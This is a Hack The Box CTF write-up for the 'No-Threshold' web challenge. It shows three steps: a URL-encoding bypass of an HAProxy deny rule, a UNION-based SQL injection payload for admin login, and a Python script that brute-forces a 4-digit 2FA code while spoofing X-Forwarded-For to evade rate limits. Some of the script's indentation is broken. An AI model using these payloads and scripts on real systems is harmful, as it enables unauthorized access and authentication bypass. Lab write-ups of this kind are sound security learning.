 ```yaml
---
title: 'Write-Up of a Web challenge From HTB: No-Threshold'
date: '2023-12-17'
tags: ['Web Exploitation']
draft: false
summary: 'writeup detailing the solving process of the No-Threshold web challenge from HACK THE BOX.'
---
```


## Web Challenge from Hack The Box

##### Challenge level:- Medium
##### Challenge Description:
Prepare for the finest magic products out there. However, please be aware that we've implemented a specialized protective spell within our web application to guard against any black magic aimed at our web shop.🔮🎩


#### **Website:**

Upon starting the challenge on HackTheBox, we are given a URL to visit furthermore, we are also given the source code of the vulnerable application to download.
Upon visiting the web application, it became apparent that it functioned as an online shop where the ability to make purchases was restricted solely to logged-in users.

![logged_only.png](/static/images/logged_only.png)

navigating to the /auth/login page : 

![forbidden_access.png](/static/images/forbidden_access.png)


the response was   `403 Forbidden` indicating that  the request is forbidden by administrative rules.
Examining the source code, particularly focusing on the HAProxy configuration file `haproxy.cfg`.

![haproxyconfig.png](/static/images/haproxyconfig.png)
  
The `http-request deny if { path_beg /auth/login }` configuration in HAProxy is a directive that denies access to any HTTP request whose path begins with `/auth/login`.
After numerous attempts to understand how to handle this restriction, I discovered that URL encoding was adequate for bypassing it.
URL-encoding of `auth`=`%61%75%74%68`


![urlencode.png](/static/images/urlencode.png)
  
Upon entering the login page, my subsequent action was to attempt to log in.
Inspecting the code handling the login process:

![444444444444444444444444.png](/static/images/444444444444444444444444.png)

the `login` function uses the function `query_db` to query the database which takes a SQL  query as a parmeter.
the SQL query used to retrieve a user seems to be vulnerable.Using this payload (`testsq' UNION ALL SELECT  username, password FROM users WHERE username = 'admin `) ,I was able to login as an admin.

URL-Encoding(`testsq' UNION ALL SELECT  username, password FROM users WHERE username = 'admin `)\
==  `%74%65%73%74%73%71%27%20%55%4e%49%4f%4e%20%41%4c%4c%20%53%45%4c%45%43%54%20%20%75%73%65\
%72%6e%61%6d%65%2c%20%70%61%73%73%77%6f%72%64%20%46%52%4f%4d%20%75%73%65%72%73%20%57%48%45%52\
%45%20%75%73%65%72%6e%61%6d%65%20%3d%20%27%61%64%6d%69%6e`


![elmoudir.png](/static/images/elmoudir.png)

Once  getting logged , I was redirected to a 2fa code verification page.
according to the login function ,once logged ,the function `set_2fa_code(4)` is called to  generate a random 4-digit Two-Factor Authentication (2FA)  code  and set it in the uwsgi cache valid for 5 minutes. 


![2fa.png](/static/images/2fa.png)

In this scenario, a viable solution could involve employing a brute-force attack, particularly since the target number is limited to a 4-digit length.
While employing Burp Intruder (with attack mode: `sniper`) , the first few requests were successful, but the rest resulted in a 429 status error code.

Upon revisiting the HAProxy configuration, I identified the cause.

![429_statuscode.png](/static/images/429_statuscode.png)

this HAProxy configuration assure if a client makes more than 20 requests in a short timeframe, they will be denied access with a 429 status code. 
An important thing to mention is that the information used to identify clients is taken from the `X-Forwarded-For` header.

That's why I wrote a python script that brute force the 2fa code and changing
the `X-Forwarded-For` every 4 requests.

```python
import requests
from concurrent.futures import ThreadPoolExecutor
def load_wordlist(wordl):
	with open(wordl,'r') as wor:
	return wor.read().splitlines()
	  
def send_requests(codes_2fa,n):
	url='http://188.166.175.58:30948/auth/verify-2fa'
	headers={	
	'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',	
	'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
	'Accept-Language': 'en-US,en;q=0.5',	
	'Accept-Encoding': 'gzip, deflate, br',	
	'Content-Type': 'application/x-www-form-urlencoded',	
	'Content-Length': '13',	
	'Origin': 'http://188.166.175.58:30948',	
	'Connection': 'close',	
	'Referer': 'http://188.166.175.58:30948/auth/verify-2fa',	
	'Upgrade-Insecure-Requests': '1',	
	'Sec-Fetch-Dest': 'document',	
	'Sec-Fetch-Mode': 'navigate',	
	'Sec-Fetch-Site': 'same-origin',	
	'Sec-Fetch-User': '?1',
	}
	
	base_ip='192.168.'
	current_ip_suffix=[1,1]	
	with ThreadPoolExecutor(max_workers=100) as executor:
		futures=[]	
		for i,code_2fa in enumerate(codes_2fa,start=1):
			ip=base_ip+str(current_ip_suffix[0])+'.'+str(current_ip_suffix[1])
			future=executor.submit(send_request,ip,code_2fa,headers,url)
			futures.append(future)		
			if i% n ==0:
				current_ip_suffix[1]+=1			
			if current_ip_suffix[1]>254:
				current_ip_suffix[1]=1
				current_ip_suffix[0]+=1			
			if current_ip_suffix[0]>254:
				current_ip_suffix=[1,1]		
		for future in futures:
			future.result()
			
def send_request(ip,code_2fa,headers,url):
	headers['X-Forwarded-For']=ip	
	data={'2fa-code':str(code_2fa)}	
	response=requests.post(url,headers=headers,data=data)
	if 'Invalid 2FA Code!' not in response.text:	
		print(f'IP :{ip},2FA:{code_2fa}:{response.text}')
  

if __name__=='__main__':
my_wordlist='/home/lwess/Downloads/SecLists-master/Fuzzing/4-digits-0000-9999.txt'
codes_2fa=load_wordlist(my_wordlist)
n=4
send_requests(codes_2fa,n)
```


Running this python script :


![flag2.png](/static/images/flag2.png)

# **Summary:**

The `No-Threshold` web challenge presented by Hack The Box was an exceptional experience. This distinctive challenge centers on a misconfiguration in HAProxy that enables unauthorized access through URI encoding. The journey unfolds by gaining admin privileges through SQL injection exploitation and culminates in overcoming the 2FA-code check through a brute-force attack. Successfully solving the challenge requires chaining together all identified vulnerabilities to ultimately obtain the flag




